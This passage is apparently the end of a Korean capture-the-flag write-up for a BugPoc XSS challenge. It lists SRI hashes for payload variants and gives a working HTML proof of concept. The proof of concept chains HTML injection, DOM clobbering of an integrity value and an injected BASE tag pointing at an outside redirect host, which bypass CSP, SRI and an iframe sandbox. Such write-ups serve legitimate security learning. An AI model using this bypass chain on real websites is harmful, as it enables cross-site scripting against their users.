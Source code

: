 그래서 마지막으로 위와 같이 페이로드를 작성해주고 보내주면 XSS가 잘 트리거 되는 것을 볼 수 있다. 또한 위 페이로드가 전 페이로드와 Hash 값이 다른 이유는 위에 이야기 했다 시피 고유의 해쉬 값은 파일의 컨텐츠 값에 따라서 달라지기 때문이다.

```
frame-analytics.js의 값이 alert(1) 일 때의 해쉬 값 => bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=
frame-analytics.js의 값이 window.top.alert(1) 일 때의 해쉬 값 => pUo1a+NaJwmvkDH8uSo6a1Z+emeQfamsHK2k52tjpTE=
frame-analytics.js의 값이 window.parent.alert(1) 일 때의 해쉬 값 => Vxz2g08RDzmBMHlaYk0sNqiCWbU6UKBSCH+xw2Qa1dM=
```
위와 같이 다 다르다 ㅇㅇ

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>XSS Poc : CSP/SRI/Sandbox Bypass</title>
    </head>
    <body>
        <script>
            // content-security-policy: script-src 'nonce-gyzyfhmynqlj' 'strict-dynamic'; frame-src 'self'; object-src 'none';
            // TR;DL : XSS => CSP Bypass and SRI Bypass using the Dom Clobbering. And finally trigger a xss using the window.top.alert(1).
            // First, I bypassed csp using the base tag.
            // Second, I bypassed integrity value used in SRI(SubResource Integrity) using the Dom Clobbering.
            // Why using the window.top? We should call the alert() method on the wintow.top and window.parent because Using the `sandbox allow-scripts allow-same-origin` in Child iframe. This is sandbox bypass.
                       
            const Dom_Clobbering = function () {
                const payload = '</title><form><output id="fileIntegrity">Modified</output>';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }

            const exploit = function (){
                const payload = '</title><BASE HREF="https://mfol4633a69b.redir.bugpoc.ninja"><form><output id="fileIntegrity">F0NfquGiAKFW0hvQsOmMsnAyVCjs3sjH0IyIf8wogAU=</output>';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }
        </script>

        <h1>BugPoc XSS Challenge</h1>
        <h3>If you click the button below and Enter the `console.log(fileIntegrity.value);` on the chrome console window, You can see that the hash value has been modified to 'Modified'</h3>
        <input type='button' onclick= 'Dom_Clobbering()' value='Test'>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type='button' onclick= 'exploit()' value='Trigger'>
    </body>
</html>
```

---